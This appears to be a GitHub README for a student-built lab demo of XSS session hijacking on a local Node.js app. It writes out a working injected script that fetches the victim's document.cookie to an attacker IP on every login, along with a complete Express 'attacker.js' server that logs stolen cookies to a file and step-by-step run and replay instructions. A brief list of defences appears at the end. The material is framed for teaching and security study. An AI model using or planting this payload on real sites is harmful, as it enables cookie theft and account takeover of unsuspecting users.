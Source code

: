 # 🚀 XSS-Based Session Hijacking Attack (Automatic Cookie Theft)
This project demonstrates how an **XSS (Cross-Site Scripting) attack** can be used to **automatically steal a victim’s session cookie** as soon as they log in, allowing the attacker to hijack the session.

---

## 📌 Overview
### Components of the Attack:
✅ **A vulnerable login page (`index.html`)** where the victim logs in.  
✅ **A JavaScript-based XSS payload** that runs automatically when the victim logs in.  
✅ **An attacker server (`attacker.js`)** that captures and logs stolen session cookies.  
✅ **A Node.js backend (`server.js`)** running the web application.  

---

## 📌 How the Attack Works

### 1️⃣ **Step 1: Victim Logs In**
- The victim visits the vulnerable website:
http://localhost:3000

yaml
Copy
Edit
- They enter their **username & password** and click **Login**.

📌 **Screenshot:**  
![Victim Login](screenshots/ss1.png)

---

### 2️⃣ **Step 2: XSS Payload Executes Automatically**
- The victim does **not** see anything suspicious.
- In the background, the login page **automatically runs a hidden script** that sends their **session cookie** to the attacker’s server.

📌 **Screenshot:**  
![XSS Payload Executed](screenshots/ss2.png)

---

### 3️⃣ **Step 3: Attacker Receives the Stolen Cookie**
- The attacker's server (`attacker.js`) **logs the victim’s session cookie** immediately.
- The stolen cookie is also **saved to `stolen_cookies.txt`**.

📌 **Screenshot:**  
![Cookie Stolen](screenshots/ss3.png)

---

### 4️⃣ **Step 4: Attacker Uses the Stolen Cookie**
- The attacker injects the **stolen session cookie** into their browser using **EditThisCookie** or Developer Tools (`F12`).

📌 **Screenshot:**  
![Cookie Injected](screenshots/ss4.png)

---

### 5️⃣ **Step 5: Attacker Successfully Hijacks the Session**
- The attacker **refreshes the page** and is now logged in **as the victim without entering a password**.

📌 **Screenshot:**  
![Session Hijacked](screenshots/ss5.png)

---

## 📌 How to Run This Attack Locally

### 1️⃣ **Install Dependencies**
```sh
npm install express
###2️⃣ **Start the Vulnerable Web Server**

node server.js
The web app will start on:
http://localhost:3000

---

###3️⃣ **Start the Attacker’s Server**

node attacker.js

The attacker server will listen for stolen cookies at:
http://192.168.X.X:4000

---

### 📌 The XSS Payload (Auto Cookie Theft)
This script is injected into the vulnerable login page (index.html) so that when the victim logs in, their cookie is stolen automatically.

---

### 🔹 Inside index.html (before </body>)

<script>
document.getElementById("loginForm").addEventListener("submit", function() {
    fetch("http://192.168.64.2:4000/steal?cookie=" + document.cookie);
});
</script>
🔹 Replace 192.168.64.2 with your attacker's IP (run ip a to check).

### ✅ This ensures that every login automatically sends the session cookie to the attacker! 🎯

---

📌 Attacker’s Server (attacker.js)
This script captures and logs the stolen session cookies.

###🔹 Inside attacker.js

const express = require('express');
const fs = require('fs');
const app = express();

app.get('/steal', (req, res) => {
    const stolenCookie = req.query.cookie;

    if (stolenCookie) {
        console.log("🚨 Stolen Cookie:", stolenCookie);
        fs.appendFileSync('stolen_cookies.txt', `${new Date()} - ${stolenCookie}\n`);
        res.send('Cookie stolen and logged!');
    } else {
        res.send('No cookie received.');
    }
});

app.listen(4000, '0.0.0.0', () => {
    console.log('🚀 Attacker server running on http://0.0.0.0:4000');
});

---

#📌 How to Defend Against This Attack
To prevent XSS-based session hijacking:

1️⃣ Use HttpOnly cookies so JavaScript cannot access them.
2️⃣ Enable Secure and SameSite flags to limit exposure.
3️⃣ Sanitize all user input to block XSS injection.
4️⃣ Implement Content Security Policy (CSP) to block unauthorized scripts.
5️⃣ Use Multi-Factor Authentication (MFA) to protect accounts.

--------------------------------------------
```
#📌 CREDITS
💻 Developed by: Md Tanvir Rana(AG2409), Margarita Nyman(AG2668)
📅 Date: (2025-03-16)
🛡️ For educational and ethical hacking purposes only.

